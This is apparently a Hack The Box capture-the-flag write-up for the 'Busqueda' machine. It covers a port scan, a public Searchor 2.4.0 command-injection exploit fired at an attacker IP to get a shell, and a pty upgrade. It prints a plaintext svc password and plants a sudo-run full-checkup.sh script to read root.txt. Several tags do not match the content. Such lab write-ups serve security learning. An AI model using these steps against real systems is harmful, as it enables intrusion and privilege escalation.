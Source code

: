 ```yaml
---
layout: single
title: Busqueda - Hack The Box
date: 2023-06-30
excerpt: "Busqueda is an easy engine from hackthebox. In carrying out the enumeration process from the target, we can identify the version of the application, namely searchor 2.4.0, where in that version there is an Arbitrary Code Execution vulnerability. to get root privileges, we need to be able to get the user from svc in the .git/config directory. the next step is to execute sudo using system-checkup.py with malicious file-checkup.sh"
header:
  teaser: /assets/img/busqueda/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - ichinga
    - LFI
    - RCE
    - Double Pivoting
    - Firejail
    - sssd
    - evil-winrm
    - chisel
    - socks
    - CVE-2022-47966
    - Proxychains

toc: true
toc_sticky: true
---
```

![](/assets/img/busqueda/cover.png)

## Synopsis

Busqueda is an easy engine from hackthebox. In carrying out the enumeration process from the target, we can identify the version of the application, namely searchor 2.4.0, where in that version there is an Arbitrary Code Execution vulnerability. to get root privileges, we need to be able to get the user from svc in the .git/config directory. the next step is to execute sudo using system-checkup.py with malicious file-checkup.sh

## Portscan

```powershell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Landing page from target 

![](/assets/img/busqueda/1.png)

and you will notice the version of application it self.

![](/assets/img/busqueda/2.png)

The version is affected of **Arbitrary Code Execution** vulnerabillity, you can grab the exploit script in [here](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection). Execute command below and start the listener will lead you into system:

```
./exploit.sh http://searcher.htb/ 10.10.14.146
```

![](/assets/img/busqueda/3.png)

we logged in as `svc` user and we can upgrade shell with following command:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

you can find the password for svc user in directory .git/config 

![](/assets/img/busqueda/4.png)


## Privilege Escalation

Run `sudo -l` will determining how to reach root user in this box

```
bash-5.1$ sudo -l
sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```bash
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
so if you check the directory /opt/scripts, you will notice if there is bash script with name full-checkup.sh. 

![](/assets/img/busqueda/5.png)

we can make our malicious full-checkup.sh script too with contains `cat /root/root.txt`, but before doing that we can user dir /dev/shm to do that.

```bash
#!/bin/bash

ping -c 3 10.10.14.146

cat /root/root.txt
```

execute command below and catch with tcpdump on interface tun0

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](/assets/img/busqueda/6.png)


as you can see we able to ping our host and get the root.txt , i thought its gonna be do some export PATH but its not necessary.

# Refferencess
```terminal
https://security.snyk.io/package/pip/searchor/2.4.0
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```
